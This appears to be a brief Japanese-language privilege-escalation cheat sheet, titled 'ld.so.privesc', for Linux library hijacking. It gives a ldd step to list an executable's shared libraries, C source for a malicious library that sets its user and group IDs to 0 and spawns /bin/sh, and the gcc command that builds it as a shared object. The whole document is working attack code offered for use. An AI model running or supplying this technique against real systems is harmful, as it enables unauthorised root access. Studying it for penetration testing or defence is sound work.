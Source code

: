 # ld.so.privesc

* 実行体に必要なsoを確認

``` shell
    ldd <実行体>
```

* Cファイルの作成
  
``` c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/types.h>

    void vuln_func(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh");
    }
```

* soファイルコンパイル

``` shell
    gcc -shared -o libcustom.so -fPIC libcustom.c
```
